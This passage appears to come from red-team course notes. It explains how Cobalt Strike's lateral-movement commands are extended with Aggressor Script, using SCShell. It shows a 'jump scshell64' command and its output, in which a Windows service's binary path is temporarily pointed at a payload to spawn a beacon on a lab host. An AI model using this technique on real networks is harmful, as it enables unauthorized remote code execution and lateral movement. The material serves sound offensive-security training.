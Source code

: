 
Both the `jump` and `remote-exec` commands can be extended via Aggressor Script to add custom techniques.  These can leverage any post-ex capability in Beacon, including PowerShell scripts, .NET assemblies, BOFs, and reflective DLLs.

### SCShell

One example is Charles Hamilton's [SCShell](https://github.com/Mr-Un1k0d3r/SCShell/tree/master/CS-BOF) project.  This implements a variation of PsExec, where an existing service is temporarily modified to run a payload and then restored afterwards, instead of a new service being created.

The project includes a CNA (Aggressor Script) file, which registers the technique via the [beacon_remote_exploit_register](https://hstechdocs.helpsystems.com/manuals/cobaltstrike/current/userguide/content/topics_aggressor-scripts/as-resources_functions.htm#beacon_remote_exploit_register) function.  Simply load `C:\Tools\SCShell\CS-BOF\scshell.cna` into the client by going to **Cobalt Strike > Script Manager**.  Then new `scshell`/`scshell64` exploits will be available.

![[Pasted image 20250714103338.png]]

```powershell
beacon> jump scshell64 lon-ws-1 smb
[*] Tasked beacon to jump to lon-ws-1 (windows/beacon_bind_pipe (\\.\pipe\TSVCPIPE-4b2f70b3-ceba-42a5-a4b5-704e1c41337)) via SCShell

Trying to connect to lon-ws-1
SC_HANDLE Manager 0x000001EE3EBD50F0
Opening defragsvc
SC_HANDLE Service 0x000001EE3EBD5120
LPQUERY_SERVICE_CONFIGA need 0x00000142 bytes
Original service binary path "C:\Windows\system32\svchost.exe -k defragsvc"
Service path was changed to "C:\Windows\System32\evil81.exe"
Service was started
Service path was restored to "C:\Windows\system32\svchost.exe -k defragsvc"

[+] established link to child beacon: 10.10.120.10
```

> Custom techniques are useful when needing to simulate specific TTPs that are not included in Cobalt Strike by default, or to push back where the default techniques are detected.